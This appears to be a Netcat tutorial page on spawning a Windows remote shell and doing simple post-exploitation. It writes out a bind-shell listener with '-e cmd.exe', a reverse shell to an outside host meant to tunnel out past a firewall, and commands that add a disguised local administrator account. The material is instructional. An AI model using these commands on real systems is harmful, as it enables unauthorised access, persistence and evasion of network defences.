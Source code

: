 ## WINDOWS REMOTE SHELL (AND SIMPLE POST-EXPLOITATION HI-JINKS)
To begin with, we will spawn a remote shell on a Windows platform in the following steps:

## Preparing the listener
To prepare the listener, we will type the following command into the command line:
```
nc –Lp 31337 –vv –e cmd.exe
```
![image](https://user-images.githubusercontent.com/47218880/68691944-38f45480-053a-11ea-9266-2854afd17158.png)

In the preceding example, we are using the capital L switch (-L) to maintain a persistent connection with the listener. This is only a Windows feature, and while it is possible to craft a script to do something similar on the Linux side, we will not be covering that in now. Keep in mind that under typical use, when we disconnect from our client machine, the Netcat executable terminates. With the –L switch, the executable continues to listen for new connection attempts.

The –vv switch tells Netcat to be extra verbose with its output. For this particular feature, the –vv switch will not do much; however, in file transfers and other use cases it will, as we will see later.

The –e switch is where the magic happens. As noted in the Installation section, the –e switch indicates the GAPING_SECURITY_HOLE feature, and allows us to do the devious things we are about to do. cmd.exe is the name of the executable for a command shell in Windows. Now, given the context and the steps explained previously, perhaps it is more understandable as to why Antivirus packages and firewalls flag Netcat as potentially malicious.

## Connecting to the target
Connecting to the target is as simple as our first exercises, and simply consists of the following string:
```
nc 192.168.0.10 31337
```

![image](https://user-images.githubusercontent.com/47218880/68692055-6ccf7a00-053a-11ea-922f-7244c47da0e9.png)


## Running a directory listing on the target
Once we have our Windows command shell launched, we can interact with it as if we were using Telnet or working on the console directly.

![image](https://user-images.githubusercontent.com/47218880/68692091-7f49b380-053a-11ea-9725-e5e6ac191784.png)

As shown in the preceding screenshot, we simply run a directory listing using the dir /w command. While out of scope for demonstrating the capabilities of Netcat, once you are at this step, you can interact with the remote shell in the same manner as if it were a local shell.

## Making a directory on the target
At this point, from an information security perspective, we have exploited the computer, and can begin post-exploitation work. From a legitimate operations perspective, you would be able to read log files and perform command-line troubleshooting. As a simple demonstration, make a directory using the md <directory name> command (I have called mine pwn3d), as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692200-ad2ef800-053a-11ea-87d4-f3bbbe95d17b.png)

## Verifying directory was created
Once the md pwn3d command is issued, we can verify if the directory was created.

![image](https://user-images.githubusercontent.com/47218880/68692248-c3d54f00-053a-11ea-962a-dd5a8f83546b.png)

## Adding a local user and granting administrator rights
Just to finish the demonstration, I will add a local user to the system, and grant that account local administrator rights. Type in the following command:
```
net user /add bob Netcat /comment:"Approved through 12/31/2012 per CTO" /fullname:"Bob Wilson"

```

It will create the account with all of the most obvious fields completed. With the user account added, I simply type the command net localgroup Administrators bob /add to grant the newly created account administrator rights, as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692301-e1a2b400-053a-11ea-8560-755ef9eda6ae.png)


Now, for completeness, I will spawn the Local Users and Groups container in Computer Management to verify if the account is created. Note that while the net user command is perfectly happy with just the username and password parameters, I would like to add the full name and comments to make the account look more authentic to the casual observer.

![image](https://user-images.githubusercontent.com/47218880/68692338-f1ba9380-053a-11ea-90cb-c1a273b7a724.png)


If I pull up the group membership for the Administrators group, I can see that our user account bob is now a member, as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692373-00a14600-053b-11ea-84ad-8178c30d8d08.png)


Another very important item to note with Netcat is that it does not matter which side the listener is and which side the client is. Assume I was running a Netcat listener on port TCP/80 on a host (rogue.k0nsp1racy.com) outside of a firewall (as depicted in the screenshot that follows), and ran the following command from within the confines of my corporate network to launch a command shell:
```
nc rogue.k0nsp1racy.com 80 –e cmd.exe
```
Assuming that the firewall rules are permitted, I would be able to create an unencrypted tunnel between the two machines as follows:

![image](https://user-images.githubusercontent.com/47218880/68692427-157dd980-053b-11ea-9dc0-d45be2f805df.png)












